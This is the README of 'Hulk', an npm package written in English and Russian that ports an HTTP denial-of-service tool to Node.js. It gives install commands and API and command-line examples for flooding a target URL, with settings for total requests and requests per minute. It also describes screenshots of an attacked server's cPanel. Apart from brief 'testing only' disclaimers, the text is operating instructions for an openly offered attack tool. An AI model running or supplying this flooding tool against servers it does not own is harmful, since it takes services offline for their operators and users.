 ﻿﻿
# Hulk v1.0.0
DoS Attack tools (for testing purposes only)

## EN

Quotation of the original file:
"This tool is a dos tool that is meant to put heavy load on HTTP servers in 
order to bring them to their knees by exhausting the resource pool, 
its is meant for research purposes only and any malicious usage of this tool is prohibited."
Originaly (python) author :  Barry Shteiman - http://www.sectorix.com/2012/05/17/hulk-web-server-dos-tool/
	
Rewritten with python (concept) under nodejs, optimized by Siarhei Dudko

- Dependencies
  - http
  - https
  - colors
  - url
  - fs
  
- Install:
	```
		npm install @sergdudko/hulk --save
	```
  
- Module connection (examples of using):
  - hulk.core - basic function of the module
	```
		var hulkCore = require('@sergdudko/hulk').core;
		hulkCore('http://link.com ', '', 'GET', 20, 100, log);
	```
  - hulk.cli - function for working with the console (takes the arguments of the process for stdin and outputs stdout in console.log)
	```
		var hulkCli = require('@sergdudko/hulk').cli;
		hulkCli();
		
		node you_script.js http://link.com dsdsdsds POST 100 1000
	```
  - hulk.file - function for working with the log file
	```
		var hulkFile = require('@sergdudko/hulk').file;
		hulkFile('http://link.com', '', 'GET', 20, 100, __dirname + '/test.log');
	```
  - hulk.func - function for working with callback function (return the output array of the console to callback)
	```
		var hulkFunc = require('@sergdudko/hulk').func;
		hulkFunc('http://link.com', '', 'GET', 20, 100, console.log);
	```
  
- Setting (function arguments for hulk.core, hulk.file, hulk.func)
  - set_you_link - link to you server, formated "https://test.com/"
  - set_this_data - data to request (not use for GET request)
  - set_this_method - type request (GET, POST and others)
  - set_req_total - number of requests for attack
  - set_req_in_min - limit download of requests per minute
  - stdout  (for hulk.core, hulk.func) - output function (console.log or write to file)
  - path (for hulk.file) - path to the file for report output
  
- Setting (process arguments for hulk.cli)
  - Default values:
	```
	  - set_you_link - http://you_link.com/
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 20k
	  - set_req_in_min - 10k/min
	```
  - With the argument set_this_data:
	```
	  node you_script.js set_you_link set_this_data set_this_method set_req_total set_req_in_min
	  node you_script.js http://link.com dsdsdsds POST 100 1000

	  - set_you_link - http://link.com
	  - set_this_data - dsdsdsds
	  - set_this_method - POST
	  - set_req_total - 100
	  - set_req_in_min - 1000 req/min
	```
  - Without the argument set_this_data:
	```
	  node you_script.js set_you_link set_this_method set_req_total set_req_in_min
	  node you_script.js http://link.com GET 1000 1000

	  - set_you_link - http://link.com
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 1000
	  - set_req_in_min - 1000 req/min
	```
  - Using the default settings:
	```
	  node you_script.js set_you_link set_this_method set_req_total
	  node you_script.js http://link.com GET 2000

	  - set_you_link - http://link.com
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 2000
	  - set_req_in_min - 10k req/min
	```

## RU  

Софт для DoS атаки на сервер. Исключительно для тестирования собственных продуктов. 
Использование в противозаконных целях запрещено. Идея навеяна аналогичным скриптом на python(Barry Shteiman - http://www.sectorix.com/2012/05/17/hulk-web-server-dos-tool/).
На основании её и реализовал в javascript(nodejs). Плюшки асинхронного языка в комплекте.

- Зависимости
  - http
  - https
  - colors
  - url
  - fs
  
- Установка:
	```
		npm install @sergdudko/hulk --save
	```
  
- Подключение модуля (примеры использования):
  - hulk.core - основная функция модуля
	```
		var hulkCore = require('@sergdudko/hulk').core;
		hulkCore('http://link.com ', '', 'GET', 20, 100, log);
	```
  - hulk.cli - функция для работы с консолью (принимает аргументы процесса за stdin и выводит stdout в console.log)
	```
		var hulkCli = require('@sergdudko/hulk').cli;
		hulkCli();
		
		node you_script.js http://link.com dsdsdsds POST 100 1000
	```
  - hulk.file - функция для работы с лог-файлом
	```
		var hulkFile = require('@sergdudko/hulk').file;
		hulkFile('http://link.com', '', 'GET', 20, 100, __dirname + '/test.log');
	```
  - hulk.func - функция для работы с каллбэк-функцией (вернет массив вывода консоли в каллбэк)
	```
		var hulkFunc = require('@sergdudko/hulk').func;
		hulkFunc('http://link.com', '', 'GET', 20, 100, console.log);
	```

- Настройка (аргументы функции hulk.core, hulk.file, hulk.func)
  - set_you_link - ссылка для атаки "https://test.com/"
  - set_this_data - данные REST запроса (могут быть пустыми)
  - set_this_method - вид запроса (GET, POST и др.)
  - set_req_total - общее число запросов к серверу
  - set_req_in_min - предел скорости запросов к серверу (запросов в минуту)
  - stdout (для hulk.core, hulk.func) - функция вывода (console.log или запись в файл)
  - path (для hulk.file) - путь к файлу для вывода отчета
  
- Настройка (аргументы процесса hulk.cli)
  - Значения по умолчанию:
	```
	  - set_you_link - http://you_link.com/
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 20k
	  - set_req_in_min - 10k/min
	```
  - В случае передачи аргумента set_this_data:
	```
	  node you_script.js set_you_link set_this_data set_this_method set_req_total set_req_in_min
	  node you_script.js http://link.com dsdsdsds POST 100 1000

	  - set_you_link - http://link.com
	  - set_this_data - dsdsdsds
	  - set_this_method - POST
	  - set_req_total - 100
	  - set_req_in_min - 1000 req/min
	```
  - Без передачи аргумента set_this_data:
	```
	  node you_script.js set_you_link set_this_method set_req_total set_req_in_min
	  node you_script.js http://link.com GET 1000 1000

	  - set_you_link - http://link.com
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 1000
	  - set_req_in_min - 1000 req/min
	```
  - Используя параметры по умолчанию:
	```
	  node you_script.js set_you_link set_this_method set_req_total
	  node you_script.js http://link.com GET 2000

	  - set_you_link - http://link.com
	  - set_this_data - ''
	  - set_this_method - GET
	  - set_req_total - 2000
	  - set_req_in_min - 10k req/min
	```
  
## SCREENSHOTS

- Внешний вид атаки/Appearance of attack

![Screenshot_1](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_1.png)

- Вывод итоговой статистики/Output of summary statistics

![Screenshot_2](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_2.png)

- Вот так это выглядит в CPanel атакуемого сервера (напомню, что убить сервер цели не было - потому атаки были не продолжительны)/This is how it looks in the CPanel of the attacked server (I recall that there was no goal to kill the server - therefore, the attacks were not long)

![Screenshot_3](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_3.png)

![Screenshot_4](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_4.png)

![Screenshot_5](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_5.png)

![Screenshot_6](https://github.com/siarheidudko/hulk/raw/master/img/Screenshot_6.png)
